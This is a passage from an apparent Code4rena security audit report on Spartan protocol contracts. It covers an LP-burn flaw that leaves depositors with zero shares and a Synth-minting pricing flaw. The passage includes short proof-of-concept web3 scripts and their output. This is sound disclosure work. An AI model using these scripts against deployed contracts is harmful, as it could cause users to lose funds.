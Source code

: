 Since any person can create a `Pool` at `PoolFactory`, hackers can create a Pool and burn his lp and set `totalSupply` to 1. He will be the only person who owns the Pool's lp from now on. [Pool's burn logic](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Pool.sol#L146) and [Utils' lp token formula](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Utils.sol#L80).

Here's a script of a user depositing 1M token to a pool where `totalSupply` equals 1

```solidity
dai_pool.functions.burn(init_amount-1).transact()
print('total supply', dai_pool.functions.totalSupply().call())
dai.functions.transfer(dai_pool.address, 1000000 * 10**18).transact()
dai_pool.functions.addForMember(user).transact()
print('lp received from depositing 1M dai: ', dai_pool.functions.balanceOf(user).call())
```

Output:
```solidity
total supply 1
lp received from depositing 1M dai:  0
```

Recommend removing `burn` or restrict it to privileged users only.

**[verifyfirst (Spartan) confirmed](https://github.com/code-423n4/2021-07-spartan-findings/issues/38#issuecomment-883855367):**
 > We agree to this issue and will restrict access to burn in the pool contract.
> We have already proposed adding a 1 week withdraw coolOff for all users per pool from the genesis of creation. Users can only add liquidity within this period.

## [[H-11] Misuse of AMM model on minting `Synth` (resubmit to add more detail)](https://github.com/code-423n4/2021-07-spartan-findings/issues/59)
_Submitted by jonah1005_

`Pool` calculates the amount to be minted based on `token_amount` and `sparta_amount` of the Pool. However, since `token_amount` in the pool would not decrease when users mint `Synth`, it's always cheaper to mint `synth` than swap the tokens.

The synthetics would be really hard to be on peg. Or, there would be a flash-loan attacker to win all the arbitrage space.

In [Pool's mint `synth`](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Pool.sol#L229-L242), The `synth` amount is calculated at L:232
```solidity
uint output = iUTILS(_DAO().UTILS()).calcSwapOutput(_actualInputBase, baseAmount, tokenAmount);
```
which is the same as swapping base to token at L:287
```solidity
uint256 _X = baseAmount;
uint256 _Y = tokenAmount;
_y =  iUTILS(_DAO().UTILS()).calcSwapOutput(_x, _X, _Y); // Calc TOKEN output
```

However, while swapping tokens decrease pool's token, mint just mint it out of the air.

Here's a POC:
Swap sparta to token for ten times
```python
for i in range(10):
    amount = 10 * 10**18
    transfer_amount = int(amount/10)
    base.functions.transfer(token_pool.address, transfer_amount).transact()
    token_pool.functions.swapTo(token.address, user).transact()
```
